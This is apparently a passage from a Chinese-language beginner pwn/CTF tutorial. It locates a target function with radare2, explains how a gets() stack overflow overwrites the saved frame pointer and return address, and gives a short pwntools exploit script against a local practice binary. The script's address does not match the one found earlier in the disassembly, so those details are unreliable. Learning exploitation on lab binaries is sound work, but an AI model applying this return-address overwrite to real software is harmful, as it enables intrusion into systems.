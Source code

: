 看一下pwn的地址

```bash
            ;-- section.0.__TEXT.__text:
            ;-- func.100000f20:
┌ (fcn) sym._pwn 29
│   sym._pwn ();
│           ; var int32_t var_4h @ rbp-0x4
│           0x100000f20      55             push rbp                   ; [00] -r-x section size 92 named 0.__TEXT.__text
│           0x100000f21      4889e5         mov rbp, rsp
```

发现是`0x100000f20`

假如我们输入的字符串为:`0x28 * 'a' 'bbbb' + pwn_addr`,那么由于gets只有读到回车才停,所以这一段字符串会把saved_ebp覆盖为bbbb,将ret_addr覆盖为pwn_addr,那么,此时栈的结构为:

```bash
                                           +-----------------+
                                           |   0x100000f20   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

注:

> 前面提到,在内存中,每个值按照字节存储.一般都是按照小端存储,所以0x100000f20 在内存中的形式为

`\x20\x0f\x00\x00\x01`

到这里radare2的任务已经完成了，但是我还是使用python脚本完成这个题目。

```python
#! /usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互

```
